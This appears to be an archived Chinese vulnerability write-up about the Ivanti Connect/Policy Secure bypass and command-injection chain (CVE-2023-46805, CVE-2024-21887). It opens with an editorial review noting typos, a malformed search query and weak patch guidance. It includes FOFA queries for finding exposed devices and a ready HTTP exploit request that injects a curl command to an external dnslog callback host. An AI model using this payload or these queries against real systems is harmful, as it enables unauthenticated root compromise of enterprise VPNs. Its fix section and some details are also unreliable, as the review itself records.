



# lvanti VPN RCE 漏洞复现 (CVE-2024-21887) 影响较为严重！

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ivanti Connect/Policy Secure
- 本文讨论：CVE-2023-46805；CVE-2024-21887
- 版本、权限与配置前提：两洞链未认证RCE，9.x/22.x粗略范围
- 资料类型：双漏洞链短PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题21887元数据仅46805，主漏洞链索引不完整
- FOFA两条件粘连缺布尔操作符；lvanti拼错
- DNS回连域名硬编码，观察无唯一标记/响应文本；声称厂商修复却给研究博客无具体安全版
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 回连样例可能向外部地址发送网络请求或建立会话；应使用自己的隔离回连服务，DNS/LDAP 到达只能证明相应交互，不能单独证明 RCE

### 待核与来源

- 精确版本/补丁与回连证据待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-M_Ok-AI91pOcUfJ25bRcA)

**“** _人性的背后是白云苍狗, 愿你我都是生活的高手_。**”  
**

****免责声明：****文章中内容来源于互联网，涉及的所有内容仅供安全研究与教学之用，读者将其信息做其他用途而造成的任何直接或者间接的后果及损失由用户承担全部法律及连带责任。文章作者不承担任何法律及连带责任！如有侵权烦请告知，我们会立即删除整改并向您致以歉意。
===================================================================================================================================

  
****0x00. 产品介绍****

lvanti Connect Secure，原名 Pulse Connect Secure，是一款企业级远程访问解决方案。这个产品主要提供安全远程访问 (VPN)，多因素认证等功能。  



****0x01. 影响范围****

Ivanti Connect Secure (9.x, 22.x)  

Ivanti Policy Secure (9.x, 22.x)



****0x02. 漏洞概述****

lvanti Connect Secure (9.x, 22.x) 和 vanti Policy Secure (9.x,22.x) 的 web 组件中存在身份验证绕过漏洞 (CVE-2023-46805) 和命令注入漏洞(CVE-2024-21887)，成功利用该漏洞链允许远程未经认证的攻击者以 root 权限执行任意操作系统命令，导致服务器失陷。

****0x03.FOFA****

```
body="welcome.cgi?p=logo" 
或 
title=="Ivanti Connect Secure"body="/dana-na/auth/url_default/welcome.cgi"

```

****0x04. 漏洞复现  
****

此漏洞可执行任意系统命令，且影响范围较大，利用成本极低  

%3b 任意系统命令 %3b

```http
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bcurl%20moweuq.dnslog.cn%3b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate

```



****0x05. 修复建议  
****

厂商已发布该漏洞修复方案

```
https://labs.watchtowr.com/welcome-to-2024-the-sslvpn-chaos-continues-ivanti-cve-2023-46805-cve-2024-21887/

```

**免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。**
======================================================================================================================

****遵守网络安全法，请勿用于非法入侵，仅供学习****

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
